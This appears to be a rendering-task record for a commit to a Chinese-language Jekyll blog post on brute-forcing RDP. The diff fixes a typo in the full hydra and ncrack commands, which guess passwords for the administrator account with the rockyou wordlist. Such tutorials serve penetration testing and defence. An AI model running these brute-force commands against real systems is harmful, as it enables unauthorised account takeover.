

Before and after one commit to tiancode/tiancode.github.io, a Jekyll site: the page built from _posts/2016-9-20-brute-force-RDP-with-hydra-and-ncrack.md, in a window 1280 px wide. Shown: the part 899-1463 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2016-9-20-brute-force-RDP-with-hydra-and-ncrack.md

````diff
--- a/_posts/2016-9-20-brute-force-RDP-with-hydra-and-ncrack.md
+++ b/_posts/2016-9-20-brute-force-RDP-with-hydra-and-ncrack.md
@@ -32,7 +32,7 @@ Nmap done: 1 IP address (1 host up) scanned in 28.14 seconds
 使用hydra暴力破解：
 
 ```
-hydra -t 4 -V -l adminstrator -P /usr/share/wordlists/rockyou.txt rdp://your_target
+hydra -t 4 -V -l administrator -P /usr/share/wordlists/rockyou.txt rdp://your_target
 ```
 
 ```
@@ -46,7 +46,7 @@ rdp:// = Port 3389
 使用ncrack暴力破解：
 
 ```
-ncrack -p 3389 -v -user adminstrator -P /usr/share/wordlists/rockyou.txt 192.168.xx.xx
+ncrack -p 3389 -v -user administrator -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
 ```
 
 ```
````
